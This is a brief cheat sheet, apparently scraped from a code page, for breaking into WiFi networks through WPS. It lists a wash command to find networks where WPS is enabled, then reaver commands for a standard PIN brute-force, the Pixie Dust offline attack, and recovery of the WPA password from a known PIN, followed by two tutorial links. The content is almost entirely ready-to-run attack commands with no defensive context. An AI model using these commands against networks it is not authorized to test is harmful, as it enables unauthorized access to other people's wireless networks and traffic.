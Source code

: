 
### Check for networks with wps available
wash -i wlan0mon

```code
BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
--------------------------------------------------------------------------------
AA:BB:CC:XX:YY:ZZ    1  -88  2.0  No   Broadcom  linksys
```

### ATTACKS TO RETRIEVE THE PIN

#standard attack
sudo reaver  -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv

#pixie dust offline attack - (-K 1)
sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -K 1




### Getting a WiFi password with a known WPS pin in Reaver

sudo reaver -i wlan0mon -b AA:BB:CC:XX:YY:ZZ -vv -p 12345678






https://kalitut.com/wifi-attack-with-wps-using-reaver/
https://axcheron.github.io/hacking-wps-using-reaver-and-pixie-dust-attack/
